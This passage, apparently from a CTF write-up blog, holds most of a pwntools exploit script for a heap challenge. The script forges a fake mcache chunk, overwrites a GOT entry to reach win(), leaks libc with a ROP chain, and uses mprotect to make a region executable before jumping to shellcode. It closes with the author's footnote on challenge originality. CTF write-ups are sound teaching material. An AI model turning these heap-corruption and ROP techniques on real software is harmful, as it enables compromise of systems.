    ```python
       add(midx, 2, b'hi')
       while (pred := r64bit())>>56: add(midx, 2, b'hi')
       for _ in range(b):
           free(2)
           edit(0xf, pad(pack(r64())[:7]))
           free(0xe)
           edit(0xf, pad(pack(pred)[:7]))
           add(midxs.incrementer, 5, b'a'*0x10)
   # , free it + a chunk right in front of it, overflow into the real freed chunk's metadata to
   add(midxs.bugged, 2, b'') # Get the fake chunk allocated,
   free(2) # free it + the chunk overlapping with the fake chunk
   free(1) # prepare to overwrite freed mchunk metadata such that ->next points to a fake chunk on the mound_arena
   add(midxs.fakechunk, 2, b'overwrite!'.ljust(0x10,b'a') + fake_mcache_entry(sz=999, fd=mound_arena.mcache-0x10))
   add(midxs.overflower, 1, 'hi') # put the fake mound_arena chunk on the mcache
   add(midxs.overflower, 1, fit(mound_data.mcache, context.binary.got['setvbuf'])) # replace mound_arena->top with the GOT
   add(midxs.got_overwriter, 2, pack(context.binary.sym.win)) # overwrite a good function with win() (I use scanf() here)
   
   # win() will execute. Leak libc in the first cycle.
   R = ROP(context.binary)
   R.raw(0x48*b'a')
   R.puts(context.binary.got['read'])
   R.win()
   r.sendlineafter(';)\n', R.chain())
   context.libc.symbols['read'] = unpack(r.recvline()[:6], 'all')
   # Using libc, change 0xbeef* to an rwx page, and jump to the shellcode that was allocated there earlier on.
   R = ROP(context.libc)
   R.raw(0x48*b'a')
   R.mprotect(mound_data.base, 0x400000, 7)
   R.call(mound_data.shellcode)
   r.sendlineafter(';)\n', R.chain())
   # get flag
   print(r.recvall())
   ```
   
6. This isn't meant as an attack against the 'originality' of CTF challenge makers. Good CTF challenge makers have to be CTF players themselves, and where else would you draw inspiration from, if not prior CTFs?

If any part of this writeup was interesting for you, try submitting a comment below; I've only just added utteranc.es to this site.

